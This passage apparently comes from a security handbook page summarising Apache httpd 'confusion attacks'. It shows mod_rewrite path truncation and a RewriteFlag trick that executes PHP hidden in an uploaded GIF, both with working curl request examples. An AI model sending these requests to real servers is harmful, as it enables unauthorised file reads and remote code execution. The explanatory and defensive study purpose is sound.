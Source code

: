 ```

## Confusion Attack 

These types of attacks has been introduced and documented [[https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1|**by Orange in this blog post**]] and the following is a summary. The "confusion" attack basically abuses how the tens of modules that work together creating a Apache don't work perfectly synchronised and making some of them modify some unexpected data can cause a vulnerability in a later module.

### Filename Confusion

#### Truncation

The **`mod_rewrite`** will trim the content of `r->filename` after the character `?` ([[https://github.com/apache/httpd/blob/2.4.58/modules/mappers/mod_rewrite.c#L4141)|_**modules/mappers/mod_rewrite.c#L4141**_]]. This isn't totally wrong as most modules will treat `r->filename` as an URL. Bur in other occasions this will be treated as file path, which would cause a problem.

- **Path Truncation**

It's possible to abuse `mod_rewrite` like in the following rule example to access other files inside the file system, removing the last part of the expected path adding simply a `?`:

```bash
RewriteEngine On
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"

# Expected
curl http://server/user/orange
# the output of file `/var/user/orange/profile.yml

# Attack
curl http://server/user/orange%2Fsecret.yml%3F
# the output of file `/var/user/orange/secret.yml
```
```
- **Mislead RewriteFlag Assignment**

In the following rewrite rule, as long as the URL ends in .php it's going to be treated and executed as php. Therefore, it's possible send a URL that ends in .php after the `?` char while loading in the path a different type of file (like an image) with malicious php code inside of it:

```bash
RewriteEngine On
RewriteRule  ^(.+\.php)$  $1  [H=application/x-httpd-php]

# Attacker uploads a gif file with some php code
curl http://server/upload/1.gif
# GIF89a <?=`id;>

# Make the server execute the php code
curl http://server/upload/1.gif%3fooo.php
# GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
```
#### **ACL Bypass**

It's possible to access files the user shouldn't be able to access even if the access should be denied with configurations like:

```xml
<Files "admin.php">
    AuthType Basic
    AuthName "Admin Panel"
```